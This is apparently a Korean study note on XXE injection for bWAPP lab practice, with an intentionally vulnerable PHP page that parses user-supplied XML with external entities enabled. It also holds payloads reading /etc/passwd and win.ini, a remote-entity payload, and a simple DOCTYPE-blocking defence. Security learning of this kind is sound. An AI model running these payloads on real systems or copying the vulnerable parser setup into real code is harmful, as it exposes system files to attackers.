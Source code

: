 ### XXE

일반적으로 잘못 구성된 XML Parser 를 사용하여 신뢰할 수 없는 XML 공격 코드을 주입시켜 실행시키는 응용 프로그램에 대한 공격

해당 공격을 통해서 주요 시스템 파일 접근(LFI)이나 외부 악의 적인 파일 참조(RFI)가 가능

보통 XML Parser 설정에서 External Entity 사용을 금지시키지 않아 발생 

### PHP 설정

xmlrpc 확장을 활성화 한다.

libxml_disable_entity_loader(false);

allow_url_fopen = on

allow_url_include = on

### 실습 가능 코드

<pre><code>
[XEE.PHP]
＜html>
＜body>
＜meta charset='utf-8'/>
＜?php
if (function_exists('libxml_disable_entity_loader')) {
    libxml_disable_entity_loader(false);
}
$xml=$_POST['xml'];
if($xml){
$doc = simplexml_load_string($xml, 'SimpleXMLElement', LIBXML_NOENT);
}
?>
＜form method="post">
＜textarea name="xml" rows="12" cols="100">
＜?php
echo $xml;
?>
＜/textarea>
＜input type="submit">
＜/form>
＜?php
echo $doc;
?>
＜/html>
</code></pre>

상기 코드를 저장하고 아래 내용을 textarea에 입력해 테스트 해본다.

<pre><code>
＜!DOCTYPE test[
＜!ENTITY testtest "XXE SUCCESS">
]>
＜result>&testtest;＜/result>
</code></pre>

from http://securitynote.tistory.com/4
https://stackoverflow.com/questions/29811915/external-entities-not-working-in-simplexml

방어코드
<pre><code>
if(preg_match("/＜!DOCTYPE/i", $xml))
{
	throw new InvalidArgumentException('Invalid XML: Detected use of illegal DOCTYPE');
}
</code></pre>

from http://blog.naver.com/PostView.nhn?blogId=koromoon&logNo=120208853424&parentCategoryNo=&categoryNo=15&viewDate=&isShowPopularPosts=false&from=postView

### LFI(Local File Inclusion)

bWAPP에서 실습하기 위해서는 WINDOWS는 문제 없지만, Linux에서는 코드를 약간 수정한다.

$doc = simplexml_load_string($xml, 'SimpleXMLElement', LIBXML_NOENT);

<pre><code>
＜!DOCTYPE root [
＜!ENTITY bWAPP SYSTEM "file:///windows/win.ini">
]>＜reset>＜login>&bWAPP;＜/login>＜secret>Any bugs?＜/secret>＜/reset>
</code></pre>

<pre><code>
＜!DOCTYPE test[
＜!ENTITY testtest SYSTEM "file:///etc/passwd">
]>
＜result>&testtest;＜/result>
</code></pre>

### RFI(Remote File Inclusion)

<pre><code>
＜!DOCTYPE root [
＜!ENTITY bWAPP SYSTEM "http://원격주소">
]>＜result>&bWAPP;＜/result>
</code></pre>

### 참고사이트

The HackPot : XML External Enitity (XXE) Injection

http://thehackpot.blogspot.com/2014/05/xml-external-enitity-xxe-injection.html?m=1
